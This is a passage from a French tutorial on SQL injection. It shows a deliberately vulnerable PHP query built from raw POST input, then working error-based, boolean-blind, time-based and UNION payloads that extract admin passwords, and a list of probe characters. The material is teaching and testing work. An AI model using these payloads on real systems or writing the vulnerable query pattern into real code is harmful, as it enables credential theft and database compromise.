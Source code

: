 ```php
<?php
// Code vulnérable
$username = $_POST['username'];
$query = "SELECT * FROM users WHERE username = '$username'";
$result = mysqli_query($connection, $query);
?>
```

#### Types d'injections SQL

##### Injection basée sur les erreurs

L'attaquant provoque des erreurs SQL pour obtenir des informations sur la structure de la base de données.

```
# Entrée normale
username=alice

# Injection provoquant une erreur
username=alice'
```

##### Injection basée sur les booléens (blind)

L'attaquant utilise des conditions TRUE/FALSE pour extraire des informations sans voir directement les résultats.

```
# Vérifier si l'utilisateur 'admin' existe
username=alice' AND (SELECT 1 FROM users WHERE username='admin')='1
```

##### Injection basée sur le temps (time-based blind)

L'attaquant utilise des fonctions de délai pour extraire des informations en observant le temps de réponse.

```
# Si le premier caractère du mot de passe admin est 'a', attendre 5 secondes
username=alice' AND IF(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a',SLEEP(5),0)='0
```

##### Injection UNION

L'attaquant utilise l'opérateur UNION pour combiner le résultat de la requête originale avec une autre requête.

```
# Récupérer les noms d'utilisateurs et mots de passe
username=alice' UNION SELECT username, password FROM users -- 
```

#### Détection des vulnérabilités

1. **Test de caractères spéciaux** :
   ```
   ' " ; -- # )
   ```
